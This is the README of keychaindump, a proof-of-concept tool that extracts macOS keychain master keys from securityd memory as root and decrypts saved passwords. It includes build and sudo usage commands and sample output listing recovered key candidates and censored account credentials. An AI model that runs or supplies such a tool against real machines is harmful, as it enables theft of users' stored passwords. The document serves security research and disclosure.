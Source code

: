 # keychaindump
Keychaindump is a proof-of-concept tool for reading OS X keychain passwords as root. It hunts for unlocked keychain master keys located in the memory space of the securityd process, and uses them to decrypt keychain files.

See the [blog post](http://juusosalonen.com/post/30923743427/breaking-into-the-os-x-keychain) for a much more readable description.

## How?

Just use the binary file, `keychaindump`, or follow these build instructions.
Build instructions:

    $ gcc keychaindump.c -o keychaindump -lcrypto

Basic usage:

    $ sudo ./keychaindump [path to keychain file, leave blank for default]

Example with truncated and censored output:

    $ sudo ./keychaindump 
    [*] Searching process 15 heap range 0x7fa809400000-0x7fa809500000
    [*] Searching process 15 heap range 0x7fa809500000-0x7fa809600000
    [*] Searching process 15 heap range 0x7fa809600000-0x7fa809700000
    [*] Searching process 15 heap range 0x7fa80a900000-0x7fa80ac00000
    [*] Found 17 master key candidates
    [*] Trying to decrypt wrapping key in /Users/juusosalonen/Library/Keychains/login.keychain
    [*] Trying master key candidate: b49ad51a672bd4be55a4eb4efdb90b242a5f262ba80a95df
    [*] Trying master key candidate: 22b8aa80fa0700605f53994940fcfe9acc44eb1f4587f1ac
    [*] Trying master key candidate: 1d7aa80fa0700f002005043210074b877579996d09b70000
    [*] Trying master key candidate: 88edbaf22819a8eeb8e9b75120c0775de8a4d7da842d4a4a
    [+] Found master key: 88edbaf22819a8eeb8e9b75120c0775de8a4d7da842d4a4a
    [+] Found wrapping key: e9acc39947f1996df940fceb1f458ac74b877579f54409b7
    xxxxxxx:192.168.1.1:xxxxxxx
    xxxxxxx@gmail.com:login.facebook.com:xxxxxxx
    xxxxxxx@gmail.com:smtp.google.com:xxxxxxx
    xxxxxxx@gmail.com:imap.google.com:xxxxxxx
    xxxxxxx:twitter.com:xxxxxxx
    xxxxxxx@gmail.com:www.google.com:xxxxxxx
    xxxxxxx:imap.gmail.com:xxxxxxx
    ...

## Who?
Keychaindump was written by [Juuso Salonen](http://twitter.com/juusosalonen), the guy behind [Radio Silence](http://radiosilenceapp.com) and [Private Eye](http://radiosilenceapp.com/private-eye).

## License
Do whatever you wish. Please don't be evil.